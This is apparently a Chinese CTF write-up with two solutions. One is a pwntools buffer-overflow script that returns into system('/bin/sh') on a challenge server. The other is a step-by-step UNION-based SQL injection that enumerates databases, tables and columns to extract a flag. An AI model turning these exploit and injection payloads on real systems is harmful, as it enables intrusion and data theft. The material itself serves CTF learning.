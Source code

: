 # BW OJ 7.19思考

# PWN

### bof

使用IDA打开pwn，看到ebp-1Ch

![image-20230719102937145](E:\typora_pictures\image-20230719102937145.png)

又看到有system函数，找到system的地址是0x08048568（空格键可以在图形界面和文本界面之间切换）

![image-20230719104006837](E:\typora_pictures\image-20230719104006837.png)

又找到system中/bin/sh的地址是0x0804A02C

![image-20230719103025889](E:\typora_pictures\image-20230719103025889.png)

解题脚本为：

```python
from pwn import *
conn=remote('vps1.blue-whale.me',9990)
system_addr = 0x08048568
command = 0x0804A02C
 conn.recv()
conn.sendline(b'a'*(0x1c+4) + p32(system_addr) + p32(command))
conn.interactive()
```

运行后得到Flag:

![image-20230719104109186](E:\typora_pictures\image-20230719104109186.png)

## Web

### Basic SQL

基础知识补充：

*在`information_schema`数据库中，有一个名为`schemata`的表，该表记录了MySQL服务器上所有数据库的信息，包括数据库名称（`SCHEMA_NAME`）等。*



获取查询列数：

```
a' union select '1','2','3
```

获取回显位置：

![image-20230719104853356](E:/typora_pictures/image-20230719104853356.png)

接下来获取所有的数据库：

```
a' union select '1',(select group_concat(SCHEMA_NAME) from information_schema.schemata),'3
```

发现有两个数据库，Information_schema和news

![image-20230719105021243](E:/typora_pictures/image-20230719105021243.png)

看看当前数据库是什么名字：

```
a' union select '1',database(),'3
```

![image-20230719105133917](E:/typora_pictures/image-20230719105133917.png)

可以看到当前数据库叫news

接下来看到当前数据库的表名：

```
a' union select '1',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'3
```

![image-20230719105728471](E:/typora_pictures/image-20230719105728471.png)

接下来开始获取字段名：

```
a' union select '1',(select group_concat(column_name) from information_schema.columns where table_name='f1agfl4gher3'),'3
```

![image-20230719105847480](E:/typora_pictures/image-20230719105847480.png)

最后获取Flag：

```
a' union select '1',(select h3r31sfl4g from f1agfl4gher3),'3
```

![image-20230719105918364](E:/typora_pictures/image-20230719105918364.png)